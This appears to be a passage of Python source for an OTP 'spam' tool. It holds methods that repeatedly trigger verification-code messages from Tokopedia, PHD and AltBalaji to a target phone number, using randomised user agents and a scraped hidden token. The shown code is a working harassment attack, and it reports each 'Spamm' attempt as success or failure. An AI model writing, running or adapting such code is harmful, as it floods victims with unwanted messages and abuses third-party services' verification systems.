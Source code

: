 	def tokped(self):
		rands=random.choice(open('ua.txt').readlines()).split('\n')[0]
		kirim = {
			'User-Agent' : rands,
			'Accept-Encoding' : 'gzip, deflate',
			'Connection' : 'keep-alive',
			'Origin' : 'https://accounts.tokopedia.com',
			'Accept' : 'application/json, text/javascript, */*; q=0.01',
			'X-Requested-With' : 'XMLHttpRequest',
			'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8'
		}
		regist = requests.get('https://accounts.tokopedia.com/otp/c/page?otp_type=116&msisdn='+self.nomer+'&ld=https%3A%2F%2Faccounts.tokopedia.com%2Fregister%3Ftype%3Dphone%26phone%3D{}%26status%3DeyJrIjp0cnVlLCJtIjp0cnVlLCJzIjpmYWxzZSwiYm90IjpmYWxzZSwiZ2MiOmZhbHNlfQ%253D%253D', headers = kirim).text
		Token = re.search(r'\<input\ id=\"Token\"\ value=\"(.*?)\"\ type\=\"hidden\"\>', regist).group(1)
		formulir = {
			"otp_type" : "116",
			"msisdn" : self.nomer,
			"tk" : Token,
			"email" : '',
			"original_param" : "",
			"user_id" : "",
			"signature" : "",
			"number_otp_digit" : "6"
		}
		req = requests.post('https://accounts.tokopedia.com/otp/c/ajax/request-wa', headers = kirim, data = formulir).text
		if 'Anda sudah melakukan 3 kali pengiriman kode' in req:
			return f'\x1b[91mSpamm Tokped {self.nomer} \x1b[91mFail!'
		else:
			return f'\x1b[92mSpamm Tokped {self.nomer} {h}Success!'

	def phd(self):
		param = {'phone_number':self.nomer}
		r = requests.post('https://www.phd.co.id/en/users/sendOTP', data=param)
		if 'We have sent an OTP to your phone, Please enter the 4 digit code.' in r.text:
			return f'\x1b[92mSpamm PHD {self.nomer} {h}Success!'
		else:
			return f'\x1b[91mSpamm PHD {self.nomer} {m}Fail!'
			
	def balaji(self):
		urlb="https://api.cloud.altbalaji.com/accounts/mobile/verify?domain=ID"
		kod="62"
		ata={
				"country_code":kod,
				"phone_number":self.nomer
			}
		head={
			"Content-Length":f"{len(str(ata))}",
			"Accept":"application/json, text/plain, */*",
			"Origin":"https://lite.altbalaji.com",
			"Save-Data":"on",
			"User-Agent":"Mozilla/5.0 (Linux; Android 8.1.0; vivo 1718) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.89 Mobile Safari/537.36",
			"Content-Type":"application/json;charset=UTF-8",
			"Referer":"https://lite.altbalaji.com/subscribe?progress=input",
			"Accept-Encoding":"gzip, deflate, br",
			"Accept-Language":"en-IN,en;q=0.9,en-GB;q=0.8,en-US;q=0.7,hi;q=0.6"
			}
		req=requests.post(urlb,data=json.dumps(ata),headers=head)
		if '{"status":"ok"}' in req.text:
			return f'\x1b[92mSpamm BALAJI {self.nomer} {h}Success!'
		else:
			return f'\x1b[92mSpamm BALAJI {self.nomer} {m}Fail!'